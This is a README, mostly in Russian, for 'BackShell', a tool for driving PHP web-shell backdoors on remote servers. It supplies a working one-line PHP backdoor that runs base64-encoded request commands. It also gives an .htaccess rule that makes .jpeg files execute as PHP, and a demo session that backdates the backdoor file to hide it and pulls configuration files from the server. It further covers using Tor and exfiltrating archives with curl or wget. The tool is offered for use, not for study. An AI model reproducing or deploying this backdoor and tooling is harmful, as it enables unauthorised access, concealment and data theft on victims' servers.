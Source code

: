 # BackShell by tz4678

Command-line tool for backdoor exploitation.

Этот скрипт может быть полезен не только для мамкиных крякеров, но и для фрилансеров, которые хотят обезопасить себя от кидалова со стороны жуликоватых заказчиков из числа выходцев из СНГ.

```zsh
$ pip install backshell

$ backshell 'https://vuln.com/path/to/backdoor.php'
 ____             _     ____  _          _ _
| __ )  __ _  ___| | __/ ___|| |__   ___| | |
|  _ \ / _` |/ __| |/ /\___ \| '_ \ / _ \ | |
| |_) | (_| | (__|   <  ___) | | | |  __/ | |
|____/ \__,_|\___|_|\_\|____/|_| |_|\___|_|_|
v0.1.1 by tz4678

Type 'help' for more information.
backshell> touch -a -m -t 201705030100.12 backdoor.php

backshell> ls -lah
total 36K
drwxr-xr-x  5 <vanished> <vanished> 4.0K Aug  4 00:26 .
drwxr-xr-x 18 <vanished> <vanished> 4.0K Jan 17  2018 ..
-rw-r--r--  1 <vanished> <vanished>  533 May  3  2017 .jshintrc
-rw-r--r--  1 <vanished> <vanished> 2.7K May  3  2017 Gruntfile.js
-rw-r--r--  1 <vanished> <vanished>   47 May  3  2017 backdoor.php
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 images
drwxr-xr-x  4 <vanished> <vanished> 4.0K May  3  2017 js
-rw-r--r--  1 <vanished> <vanished>  466 May  3  2017 package.json
drwxr-xr-x  2 <vanished> <vanished> 4.0K May  3  2017 resource

backshell> ps -aux
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
<vanished>  786766  0.1  0.0 382984 24116 ?        Ss   00:45   0:00 lsphp
<vanished>  787446  0.0  0.0 383416 10240 ?        Ss   00:46   0:00 <vanished>
<vanished>  787447  0.0  0.0   9776  1140 ?        S    00:46   0:00 sh -c ps -aux 2>&1
<vanished>  787448  0.0  0.0  49836  1652 ?        R    00:46   0:00 ps -aux

backshell> exit
```

Backdoor example:

```php
<?php @passthru(base64_decode($_REQUEST['c']));
```

Base64 нужен для обхода `magic_quotes_gpc = On`, который до сих пор много где включен, а так же для работы с бинарными данными в Node.js и т.п.

Такой простой бекдор, конечно, быстро спалят.

`.htaccess`:

```htaccess
AddType application/x-httpd-php .jpeg
```

Теперь файлы с расширением `.jpeg` будут выполняться как php.

## Examples

```zsh
# Help
backshell> help

# Download file from server
backshell> download config.php
Saved as XXXX.config.php

# Upload file to server
backshell> upload script.php

# Edit file on server
backshell> edit index.php
```

## Ограничения

Так как каждый раз запускается новая сессия шелл, то такие команды как `cd` работают не так как ожидается:

```zsh
backshell> cd /tmp; echo $PWD
/tmp

backshell> pwd
/path/to/backdoor
```

Решения:

- При запуске backshell указывать аргумент `--cwd`;
- Использовать команду `cdx`.

Так же не будут работать интерактивные команды типа `less` и др.

Ограничение на длинну команды:

```zsh
$ getconf ARG_MAX
2097152
```

Чтобы скачать файл большого размера либо каталог, упакуйте его с помощью tar, переместите его в ассеты и выкачайте curl/wget.

Вызов команды edit при работе через torify приводит к ошибке:

```zsh
1596550567 WARNING torsocks[373221]: [syscall] Unsupported syscall number 217. Denying the call (in tsocks_syscall() at syscall.c:567)
```

Это баг torsocks и хз когда его исправят.
